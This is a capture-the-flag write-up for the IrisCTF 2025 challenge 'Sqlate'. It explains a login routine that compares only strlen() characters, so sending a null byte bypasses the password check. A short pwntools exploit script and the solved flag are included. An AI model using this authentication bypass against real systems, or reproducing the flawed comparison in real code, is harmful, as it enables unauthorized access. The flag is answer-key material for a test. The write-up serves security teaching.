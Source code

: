 ```yaml
---
title: "Sqlate"
date: "2025-01-12"
ctf: "IrisCTF 2025"
category: "web"
difficulty: "Easy"
points: 50
tags: ["web", "binary", "buffer-overflow"]
author: "Tham Le"
solved: true
---
```


# Sqlate Write-up

Challenge: Sqlate (50 points)
Category: Web/Binary

## Vulnerability

The vulnerability lies in `action_login()`:

```c
void action_login() {
    read_to_buffer("Password?");
    unsigned long length = strlen(line_buffer);
    for (unsigned long i = 0; i < length && i < 512; i++) {
        if (line_buffer[i] != admin_password[i]) {
            printf("Wrong password!\n");
            return;
        }
    }
}
```

The login function compares characters one by one without verifying the full password length. When we input a null byte (`\x00`), `strlen()` returns 0, causing the comparison loop to be skipped entirely.

## Exploit

```python
from pwn import *

conn = remote('sqlate.chal.irisc.tf', 10000)

conn.recvuntil(b'> ')
conn.sendline(b'5')

conn.recvuntil(b'Password?')
conn.sendline(b'\x00')

conn.recvuntil(b'> ')
conn.sendline(b'7')

flag = conn.recvline()
print(flag.decode())

conn.close()
```

1. Send option 5 for login
2. Send null byte as password to bypass check
3. Use option 7 (hidden) to cat flag
4. Get flag

Flag: `irisctf{real_programmers_use_vim}`
